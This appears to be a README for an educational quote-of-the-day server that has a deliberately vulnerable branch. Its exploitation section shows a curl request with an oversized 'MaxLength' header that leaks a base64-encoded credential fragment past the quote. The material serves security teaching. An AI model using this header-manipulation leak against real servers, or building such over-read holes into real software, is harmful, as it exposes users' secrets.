 # Quote Of The Day

This repository contains logic for a server that returns quotes of the day. It
is meant to run on port 17 and conform to RFC 865.
https://tools.ietf.org/html/rfc865

The repo also has a buggy branch that can be used to mimic an exploitable
vulnerability. Switch to the `vulnerability` branch to see more.

### Deployment

```
docker build -t logstoneducation/qotd:0.0.1 .
docker push logstoneducation/qotd:0.0.1
```

### Exploitation

With program running, hit:

```
curl 127.0.0.1:9999
"The secret of success is to do the common thing uncommonly well." -John D. Rockefeller Jr.
```

```
curl  -H "MaxLength:450" 127.0.0.1:9999
"The secret of success is to do the common thing uncommonly well." -John D. Rockefeller Jr.c3N3b3JkOkJhbmFuYWdyYW1zLFVzZXJuCg==
```

```
echo c3N3b3JkOkJhbmFuYWdyYW1zLFVzZXJuCg== | base64 -d
ssword:Bananagrams,Usern
```
